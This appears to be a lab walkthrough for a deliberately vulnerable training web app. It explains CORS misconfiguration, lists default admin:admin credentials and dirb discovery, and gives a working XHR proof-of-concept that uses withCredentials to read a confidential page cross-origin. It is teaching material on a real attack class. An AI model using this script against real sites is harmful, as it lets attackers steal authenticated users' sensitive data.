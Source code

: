 # CORS misconfiguration

CORS defines a way in which a browser and server can interact to determine whether or not it is safe to allow the cross-origin request. It allows for more freedom and functionality than purely same-origin requests.

We find a lot of vulnerabilities these days that have CORS misconfigured.
This misconfiguration allows to make XHR get requests on an authenticated users behalf
and steal sensitive information from the server!

#### The issue?

Rather than explaining myself please refer to the following blog to read all about the 
issue at hand:

The source is found [here](https://portswigger.net/blog/exploiting-cors-misconfigurations-for-bitcoins-and-bounties)


### Spoiler 1 - discovery

You can find the vulnerable link after loggin in with either:

```
link: http://0.0.0.0:8081/login
user : admin:admin
```

Or by finding a obscure backdoor by running "dirb" against the web-server


Please refer to the following page:

```
http://0.0.0.0:8081/confidential
```

Here we will find this page:

![target page](../img/cors-page.png)

Whenever we do a GET request on this page and we add an origin header to the request we 
create the following response.

![request/response](../img/req-resp-cors.png)


### Spoiler 2 - exploitation

Now, the idea is to make an XHR GET request on the authenticated users' behalf

To do so we create a HTML page with the following script in it:

```
<script>
    var req = new XMLHttpRequest();
    req.onload = reqListener;
    req.open('get', 'http://0.0.0.0:8081/confidential', true);
    req.withCredentials = true;
    req.send();
    function reqListener() {
        document.getElementsByTagName("p")[0].innerHTML = req.responseText;
    }
</script>

<p></p>
```

This script will make a cross origin request to the target application and puts the output of the 
response in the paragrapgh tags.

Now, this attack works pretty much like CSRF, it leans on the behaviour of your browsers cookie jar
and the appending of the session cookie to requests. 

Remeber this CORS header

```
Access-Control-Allow-Credentials: true
```
This header wil ultimately help us achieve our goal!

Now look at the result:

![result](../img/cors-result.png)

Highlighed in red we see the target page. If you look at what is highlighted in blue you see
this is just a local HTML file that does the XHR get request to the target server.

Highlighted in purple you see the super secret information as a result.

*Disclaimer:* In a real situation you wil most likely need to build your own small web-server
to do the XHR GET request from. 